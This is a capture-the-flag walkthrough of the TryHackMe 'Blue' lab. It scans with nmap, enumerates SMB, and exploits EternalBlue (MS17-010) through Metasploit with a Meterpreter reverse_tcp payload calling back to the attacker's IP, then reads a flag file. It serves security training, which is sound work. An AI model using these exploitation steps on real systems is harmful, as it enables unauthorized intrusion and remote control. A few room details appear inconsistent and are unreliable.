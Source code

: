 
# TryHackMe - Blue Room Walkthrough

This is a walkthrough and notes for the [Blue Room](https://tryhackme.com/room/blue) on TryHackMe, based on the write-up by dvanmosselbeen.

## Room Info

**Name:** Blue  
**Difficulty:** Easy  
**Focus:** Blue Team, Incident Response, Enumeration, Exploitation

## Task Summary

### Task 1 - Introduction
Simple welcome message, no answers required.

### Task 2 - Reconnaissance

- Use `nmap` to scan the target machine.
```bash
nmap -sC -sV -oA nmap/initial <MACHINE_IP>
```
- Ports open: 445 (SMB), 139 (NetBIOS), 135 (RPC), 3389 (RDP)
- System is running Windows.

### Task 3 - Enumeration

- Use `enum4linux` or `smbclient` to enumerate shares and users.
```bash
enum4linux -a <MACHINE_IP>
```
- Discovered: User `haris`, share `Users`, and `Anonymous` access.

### Task 4 - Exploitation

- The target is vulnerable to **EternalBlue** (MS17-010).
- Use `searchsploit` or Metasploit to find an exploit.
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <MACHINE_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
run
```
- Successfully gained a Meterpreter session.

### Task 5 - Privilege Escalation

- With `meterpreter` session, escalate privileges using `post/multi/recon/local_exploit_suggester`.
- Use `getuid`, `sysinfo`, `getprivs` to confirm access level.

### Task 6 - Capture the Flag

- Navigate to the user Desktop or Documents to find the flag.
```bash
cd C:\Users\haris\Desktop
type user.txt
```
- Submit the flag to complete the room.

## Tools Used

- nmap
- enum4linux
- smbclient
- Metasploit

## Reference

Original write-up: [https://dvanmosselbeen.github.io/TryHackMe_writeups/blue/](https://dvanmosselbeen.github.io/TryHackMe_writeups/blue/)

---

✅ Completed after 154 days of daily learning on TryHackMe!

